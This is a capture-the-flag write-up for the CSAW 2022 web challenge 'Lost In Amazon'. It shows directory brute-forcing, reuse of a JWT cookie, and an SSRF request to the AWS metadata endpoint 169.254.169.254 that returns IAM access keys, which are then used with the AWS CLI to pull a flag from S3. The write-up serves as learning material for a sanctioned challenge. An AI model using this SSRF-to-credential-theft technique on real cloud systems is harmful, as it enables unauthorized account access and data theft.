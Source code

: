 ```yaml
---
title: "Lost In Amazon"
date: 2022-09-12T14:30:16-04:00
draft: false
authors: ["CDT Daniel Chung"] 
tags: ["csaw", "web"]
---
```


Absolutely lost in the sauce...

## Description

Let's discover the Amazon forest internally. But from where and how? Also what is the secret?

http://web.chal.csaw.io:5011

## Hint

use [wordlist.txt](https://ctf.csaw.io/files/ded8552e7c4f010ab2d201af8d814747/rockyou.txt) instead

### TL;DR

Dirb the initial website to find a jwt token and a hint at an internal dev website, dirb `/developer/` to find `/developer/heaven/`.
From here, load a cookie of 
```
secret:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzZW5kZXIiOiJzZWNyZXQiLCJtZXNzYWdlIjoiQSB1c2VmdWwgcGllY2Ugb2YgdGhlIHF1ZXN0LiEiLCJkYXRlIjoiMjAyMi0wOS0wOSAyMjo0MzoyMy4xMjg5NzciLCJleHAiOjE2NjI4NDk4MDN9.-9jBPW6b9V9AKkLNO1zcY5_mnbuuz3l2Vqi-NMR0ZM8
``` 
and reload to get the developer page, and use the aws metadata service to retrieve the aws secrets.

### First Steps

Initially I went to `http://web.chal.csaw.io:5011/` and saw this paragraph on the page.

```html
<div id="content-1">
    <div class="featured">
        <h2><a href="#">A History of the Biggest Jock Jam Single of All Time</a></h2>
            <p>WE WILL ROCK YOU tells the story of a globalized future without musical instruments. A handful of rock rebels, the Bohemians, fight against the all-powerful Globalsoft company and its boss, the Killer Queen; they fight for freedom, individuality and the rebirth of the age of rock. Scaramouche and Galileo, two young outsiders, cannot come to terms with the bleak conformist reality. They join the Bohemians and embark on the search to find the unlimited power of freedom, love and Rock!</p>
            <p>The idea for the musical came after a meeting between the actor Robert De Niro with musicians Brian May and Roger Taylor, in Venice in 1996. De Niro's daughter was a big fan of the Queen and the actor asked if the legends of rock had never thought of creating a musical based on their songs. That was the beginning of everything.</p>
    </div>
</div>
```

The paragraph hints at using rockyou.txt, so I started `feroxbuster` to enumerate the subdirectories.
```shell
$ ./feroxbuster -u http://web.chal.csaw.io:5011/ -w rockyou.txt   
```

`feroxbuster` managed to find two pages, `/rockyou` and `/secret`, where `/secret` contains a jwt token. Decoding this with `jwt.io` shows that the token is "secret" but nothing useful for now so let's keep this in mind.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzZW5kZXIiOiJzZWNyZXQiLCJtZXNzYWdlIjoiQSB1c2VmdWwgcGllY2Ugb2YgdGhlIHF1ZXN0LiEiLCJkYXRlIjoiMjAyMi0wOS0xMCAwNzoxMToyMi4zNTg3NjYiLCJleHAiOjE2NjI4ODAyODJ9.48M1jV5qf60vAU-bnRFwsOL6x5l16MlBttydm-iFzsQ
```
```json
{
  "sender": "secret",
  "message": "A useful piece of the quest.!",
  "date": "2022-09-10 07:11:22.358766",
  "exp": 1662880282
}
```

`/rockyou` contained another webpage, telling us that there was another pathway.

```
There is a hidden pathway to accesss the internal Amazon forest. But it's restricted :( and still in the development phase
```

From here I was stuck for quite a long time figuring out the next path. Admin said that the next root path was something related to development, so I ended up trying `/internal/, /development/, /dev/, /restricted/, /secret/, /notes/, /todo/, /admin/, /progress/` and finally `/developer/` through `feroxbuster`

```
$ ./feroxbuster -u http://web.chal.csaw.io:5011/developer/ -w rockyou.txt   
```

`feroxbuster` ended up finding a path to `/developer/heaven` which landed on a 403 page with a screenshot from a movie, telling us that the moose out back should've told us to stop. Remember the jwt token we found earlier? It finally comes into play here. I made a cookie named `secret` with the value of the token. 

```
secret:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzZW5kZXIiOiJzZWNyZXQiLCJtZXNzYWdlIjoiQSB1c2VmdWwgcGllY2Ugb2YgdGhlIHF1ZXN0LiEiLCJkYXRlIjoiMjAyMi0wOS0wOSAyMjo0MzoyMy4xMjg5NzciLCJleHAiOjE2NjI4NDk4MDN9.-9jBPW6b9V9AKkLNO1zcY5_mnbuuz3l2Vqi-NMR0ZM8
```
After refreshing the page, I found a page looking like a travel website.

```html
<body>
    <div class="s01">
        <form action="/magiccall">
            <fieldset>
            <legend>Discover the internal Amazon Forest</legend>
            </fieldset>
            <div class="inner-form">
            <div class="input-field first-wrap">
                <input name="pathtojwel" id="search" type="text" placeholder="What are you looking for?" />
            </div>
            <div class="input-field second-wrap">
                <input name="location" id="location" type="text" placeholder="location" />
            </div>
            <div class="input-field third-wrap">
                <input class="btn-search" name="magiccall_" value="Search" type="submit"></input>
            </div>
            </div>
        </form>
    </div>
</body>
```

### A Giant Rabbit Hole

From here I thought you had to brute force the possible directories and the possible file locations. This was useless and I ended up wasting 3 hours scripting and trying possibilities.

```py
import requests
import itertools
looking_for = ""
location = ""
base_url = "http://web.chal.csaw.io:5011/magiccall?pathtojwel={looking_for}&location={location}&magiccall_=Search"

base_result = requests.get(base_url).text

extensions = ["", "/","~/", "/.", "~/.", "./", "./.", "../", "../../", "../../../", "../../../../", "../../../../../"]

looking_for_list = ["config","credentials", "internal", "Amazon", "amazon", "forest", "ami-id","AWS_CONFIG_FILE", "AWS_SHARED_CREDENTIALS_FILE", "secret", "creds", "discover", "ecsInstanceRole"]
# location_list = ["lost+found","aws/", "internal/", "amazon/", "forest/", "latest/meta-data/"]
# location_list = ["lost+found/"]
# location_list = ["latest/meta-data/iam/security-credentials/", "latest/user-data/"]
# location_list = ["console/","bucket/"]
# location_list = ["Amazon/", "amazon/", "aws/config/"]
# location_list = ["etc/environment/","aws/environment/", "aws_env/"]
# location_list = [""]
# location_list = ["magiccall/"]
# location_list = ["discover/"]
location_list = [""]

ext_location = []
for pair in itertools.product(extensions, location_list):
    ext_location.append(pair[0] + pair[1])

for pair in itertools.product(looking_for_list, ext_location):
    print(f"trying {pair}")
    r = requests.get(base_url.format(looking_for=pair[0], location=pair[1]))
    if r.text != base_result:
        print("Found it!")
        print(r.text.strip("\n"))
        break
```

### Right Path

I asked an admin to provide insight and `harin` told me to try a completely different location. From here, I tried a bunch of different locations such as `localhost`, `web.chal.csaw.io:5011`, and `8.8.8.8`. Surprise!!!

```
Good Progress!! Keep it up.
I can only make calls to Amazon meta data
```

A quick [google search](https://www.google.com/search?channel=fs&client=ubuntu&q=amazon+meta+data) regarding Amazon meta data led to the [documentation page](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for AWS. The page specifies that the IPv4 address of the instance metadata service used for the examples is `169.254.169.254`, so why not try that. [Here](http://web.chal.csaw.io:5011/magiccall?pathtojwel=%2Flatest%2Fmeta-data&location=169.254.169.254&magiccall_=Search) I found a proper response showing a folder named `latest`. Continuing to follow the trail, I found `latest/dynamic` and `latest/meta-data`, with the following link. A little bit of snooping around later, and I found `latest/meta-data/iam/security-credentials/lost-in-amazon` which showed the following information:

```
Good Progress!! Keep it up.
{
"Code": "Success",
"LastUpdated": "2020-04-02T18:50:40Z",
"Type": "AWS-HMAC",
"AccessKeyId": "AKIAWFXGV6SZK7LCJ3MX",
"SecretAccessKey": "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",
"Token": "Private S3 Bucket: csaw",
"Expiration": "2022-04-02T00:49:51Z"
}
```

We now have 3/4 pieces of information required to access an AWS bucket through s3, so let's keep looking around. I found `latest/meta-data/placement/region`, which shows what region the bucket is located in.

```
Good Progress!! Keep it up.
us-east-1
```

And now like Thanos we have all the pieces. Here I configured my aws cli with the information provided, `json` was a guess.

```console
$ aws configure
AWS Access Key ID [None]: AKIAWFXGV6SZK7LCJ3MX
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1     
Default output format [None]: json
```

Accessing the bucket with aws s3 cli showed that there was a flag inside the bucket.

```console
$ aws s3 ls s3://csaw

2022-09-03 04:21:26         26 flag.txt

$ aws s3 cp s3://csaw/flag.txt ~/

download: s3://csaw/flag.txt to ../../../../../../../flag.txt     
```

### Flag

```
CTF{M3t@_D@TA_1S_CRi7Ic@L}
```

### Notes

- 5th global solve for CSAW 2022 @ 500 points
- Was an extremely guessy challenge
